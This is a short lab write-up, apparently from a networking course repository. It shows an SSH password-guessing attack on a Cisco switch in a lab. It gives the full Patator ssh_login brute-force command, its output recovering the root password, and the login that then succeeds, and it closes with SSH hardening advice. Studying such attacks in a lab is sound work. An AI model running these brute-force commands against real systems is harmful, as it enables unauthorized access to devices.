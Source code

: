```yaml
---
title: Password guessing attack
---
```


# Password guessing attack

1. Goal
    * Getting SSH access to a switch

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2020.1)

4. Setup
    
    ![Success](./assets/setup.png)

5. Getting started

    1. The username (root) is already obsolete and the IP address of the switch is 192.168.1.254.
    
    2. Check the SSH connection of the switch.

    ```
    kali@KALI1:~$ ssh 192.168.1.254 -l root
    Password: 
    Password: 
    Password: 
    root@192.168.1.254's password: 
    Connection closed by 192.168.1.254 port 22
    kali@KALI1:~$
    ```
    3. Start Patator on Kali Linux
   
    [More information about Patator](https://tools.kali.org/password-attacks/patator)
    
    * Select the module ssh_login.
    * Define the host and user.
    * Select a password file.
    * Ignore "Authentication failed" messages.

    
    ```
    kali@KALI1:~/Desktop$ patator ssh_login host=192.168.1.254 user=root password=FILE0 0=password.lst -x ignore:mesg='Authentication failed.'
    14:01:47 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2020-05-26 14:01 CEST
    14:01:47 patator    INFO -                                                                              
    14:01:47 patator    INFO - code  size    time | candidate                          |   num | mesg
    14:01:47 patator    INFO - -----------------------------------------------------------------------------
    14:08:34 patator    INFO - 0     18     2.155 | toor                               |   450 | SSH-2.0-Cisco-1.25
    ^C
    14:10:59 patator    INFO - Hits/Done/Skip/Fail/Size: 1/611/0/0/3560, Avg: 1 r/s, Time: 0h 9m 12s
    14:10:59 patator    INFO - To resume execution, pass --resume 61,61,61,61,61,61,61,61,61,62
    kali@KALI1:~/Desktop$
    ```
    The password (toor) has been retrieved!

     4. Check the SSH connection of the switch.

     ```
     kali@KALI1:~$ ssh 192.168.1.254 -l root
    Password: 
    S1#
     ```

6. Conclusion
    * Protect your SSH connections well! (Management VLAN, strong passwords, restrict access, ...)